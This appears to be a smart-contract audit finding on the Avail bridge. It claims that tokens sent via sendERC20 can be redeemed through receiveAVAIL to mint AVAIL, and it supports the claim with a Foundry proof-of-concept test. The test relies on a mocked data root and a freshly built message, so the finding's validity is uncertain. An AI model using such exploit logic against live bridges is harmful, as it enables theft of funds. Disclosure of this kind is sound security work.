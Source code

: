 Silly Blood Salmon

medium

# No check between Avail token and ERC20 Token

## Summary
Value or message can be sent from sendERC20 function and redeemed with the receiveAvail function due to no necessary checks in the receiveAvail fiction. This can lead to a massive loss for the protocol where a large amount of avail is minted in place for the same amount in ERC20 token but a lower value against usdt as AVAIL/USDT !== ERC20/USDT.

## Vulnerability Detail

Looking at this test function
```solidity
function test_sendEC20_ReceiveAvail(uint256 amount, bytes32 rangeHash , bytes32 assetId) external {
        address tod = makeAddr("to");
        bytes32 to = bytes32(bytes20(tod));
        vm.assume(to != bytes32(0) && amount != 0);
        address from = makeAddr("from");
        ERC20Mock token = new ERC20Mock();
        token.mint(from, amount);
        bytes32[] memory assetIdArr = new bytes32[](1);
        assetIdArr[0] = assetId;
        address[] memory tokenArr = new address[](1);
        tokenArr[0] = address(token);
        vm.prank(owner);
        bridge.updateTokens(assetIdArr, tokenArr);
        IAvailBridge.Message memory message =
            IAvailBridge.Message(0x02, bytes32(bytes20(from)), to, 2, 1, abi.encode(assetId, amount), 0);
        vm.startPrank(from);
        token.approve(address(bridge), amount);
        vm.expectCall(address(token), abi.encodeCall(token.transferFrom, (from, address(bridge), amount)));
        bridge.sendERC20(assetId, to, amount);
        assertEq(bridge.isSent(0), keccak256(abi.encode(message)));
        assertEq(token.balanceOf(from), 0);
        assertEq(token.balanceOf(address(bridge)), amount);


        vm.assume(amount != 0);
        //address to = makeAddr("to");
        message =
            IAvailBridge.Message(0x02, bytes32(bytes20(from)), to, 1, 2, abi.encode(assetId, amount), 0);
        bytes32 messageHash = keccak256(abi.encode(message));
        bytes32 dataRoot = keccak256(abi.encode(bytes32(0), messageHash));

        vectorx.set(rangeHash, dataRoot);

        bytes32[] memory emptyArr;
        IAvailBridge.MerkleProofInput memory input =
            IAvailBridge.MerkleProofInput(emptyArr, emptyArr, rangeHash, 0, bytes32(0), messageHash, messageHash, 0);

        vm.expectCall(address(avail), abi.encodeCall(avail.mint, (tod, amount)));
        bridge.receiveAVAIL(message, input);
        assertTrue(bridge.isBridged(messageHash));
        assertEq(avail.totalSupply(), amount);
    }

```

Based from the test function, the message was redeemed from the receiveAvail instead of receiveERC20  and was still successful, causing a large imbalance of value coming in and value being redeemed

## Impact
Loss of funds for the protocol

## Code Snippet
https://github.com/sherlock-audit/2023-12-avail/blob/main/contracts/src/AvailBridge.sol#L383

https://github.com/sherlock-audit/2023-12-avail/blob/main/contracts/src/AvailBridge.sol#L212
## Tool used

Manual Review

## Recommendation
Add check to ensure assetId in message matches avail assetId before minting avail to receiver